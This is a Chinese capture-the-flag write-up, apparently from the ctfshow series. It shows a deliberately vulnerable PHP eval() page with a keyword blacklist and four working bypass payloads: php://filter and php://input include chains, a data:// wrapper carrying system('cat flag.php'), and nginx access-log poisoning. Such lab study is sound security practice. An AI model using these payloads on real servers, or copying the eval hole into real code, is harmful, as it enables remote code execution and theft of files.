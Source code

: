```
 <?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-04 00:12:34
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-04 04:21:29
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/

error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'|\`|echo|\;|\(|\:|\"/i", $c)){
        eval($c);
    }
    
}else{
    highlight_file(__FILE__);
} 
```

分析源码

过滤

flag

system

php

cat

sort

shell

.

'

`

echo

;

(

:

"



还是可以用上题的payload



## 第一种

嵌套include结合php://filter

```
?c=include$_GET[a]?>&a=php://filter/convert.base64-encode/resource=flag.php
```

![image-20250402182029126](./assets/image-20250402182029126.png)

![image-20250402182017923](./assets/image-20250402182017923.png)



## 第二种

include结合php://input

GET

```
?c=include$_GET[a]?>&a=php://input
```

POST

```
<?php system("cat flag.php");?>
```

![](./assets/image-20250402182103197.png)



## 第三种

include结合data://text/plain

```
?c=include$_GET[a]?>&a=data://text/plain,<?php system("cat flag.php");?>
```

![image-20250402182206914](./assets/image-20250402182206914.png)



## 第四种

日志注入

```
?c=include$_GET[a]?>&a=../../../../../var/log/nginx/access.log
```

![image-20250402182244167](./assets/image-20250402182244167.png)

抓包，修改UA头 

![image-20250402182327533](./assets/image-20250402182327533.png)

![image-20250402182350943](./assets/image-20250402182350943.png)

GET

```
?c=include$_GET[a]?>&a=../../../../../var/log/nginx/access.log
```

POST

```
a=system("cat flag.php");
```

![image-20250402182413473](./assets/image-20250402182413473.png)